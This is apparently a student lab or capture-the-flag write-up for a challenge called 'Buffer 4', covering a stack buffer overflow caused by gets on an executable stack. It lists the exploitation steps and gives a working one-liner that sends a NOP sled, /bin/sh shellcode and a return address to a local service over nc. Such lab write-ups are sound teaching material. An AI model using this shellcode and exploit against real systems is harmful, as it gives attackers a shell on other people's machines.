 ref: 3 | Buffer 4 | shellz
===========================

General overview of problems faced
-------------------------------------
- I had to change Shellcode as the one I was using was most likely overwriting itself
- Had to fiddle around with the memory address since gdb adds overheads onto the stack and therefore the addresses don't match when running without gdb
- Learned what a nop operation was and how to use a "nop sled" to have a higher chance to point to a memory address somewhere in my buffer. The nop operations will then execute, do nothing and go to next operation.

List of vulnerabilities
--------------------
1. Input is taken from the user using 'gets' and the buffer is of fixed size which means we can overflow the buffer and overwrite memory after it, including return address. The stack memory is also set to executable therefore we can execute shellcode from the stack.

Steps to exploit
------------------
1. Write or find shellcode
2. Find the starting address of your buffer using gdb
3. Enter 8158 bytes of NOP operators ('\x90') + 46 bytes of shellcode and then some memory address inside your buffer but before your shellcode. (It might take a bit time to play around with the memory in order to get a working address)
4. You now have a shell!

Script/Command used
------------------
```
<!-- Pointer to somewhere inside buffer and before shellcode: 0xffffbe00 -->
(python -c 'print("\x90"*8158 + "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "\x00\xbe\xff\xff")'; cat ) | nc localhost 5004
```
